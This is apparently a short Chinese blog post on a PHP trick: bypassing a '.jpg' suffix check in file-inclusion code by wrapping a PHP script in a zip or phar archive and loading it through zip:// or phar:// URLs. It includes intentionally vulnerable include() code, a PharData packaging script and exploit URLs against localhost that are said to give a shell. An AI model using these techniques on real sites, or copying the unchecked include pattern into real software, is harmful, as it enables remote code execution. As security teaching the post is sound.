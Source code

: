 ```yaml
---
layout: post
title: zip或phar协议包含文件
tags: [tricks,php]
---
```


这个方法适用于验证包含文件为特定后缀时。
例如以下代码

```php

<?php
$file = $_GET['file'];
if(isset($file) && strtolower(substr($file, -4)) == ".jpg"){
	include($file);
}
?>

<?php
$file = $_GET['file'];
include($file.'.jpg');
?>
```
上面的代码一个验证了后缀是否为jpg，一个是直接添加了jpg后缀，然后才包含。对于现在这种情况，要包含php文件的话的，可以通过截断。但是\x00的截断在php>5.3.4就没用了，而且还要考虑GPC,所以是比较鸡肋的方法。其实我们可以通过zip协议和phar协议来包含文件。

**zip://**
首先我们新建一个zip文件，里面压缩着一个php脚本。


![2355213942](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2355213942.png)


然后我们构造zip://php.zip#php.jpg

http://127.0.0.1/file.php?file=zip://php.zip%23php.jpg



![819654707](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-819654707.png)


这样就成功shell了。


**phar://**
首先我们要用phar类打包一个phar标准包

```php
<?php
$p = new PharData(dirname(__FILE__).'/phartest2.zip', 0,'phartest2',Phar::ZIP) ; 
$x=file_get_contents('./php.php');
$p->addFromString('a.jpg', 
$x); 
?>
```
会生成一个zip的压缩文件。然后我们构造

http://127.0.0.1/file.php?file=phar://php.zip/php.jpg

也可以直接shell

其中phar适用范围为php>5.3.0

以下的这种包含方式在这样的情况下是无效的。
include(一个规定的路径+可控点)


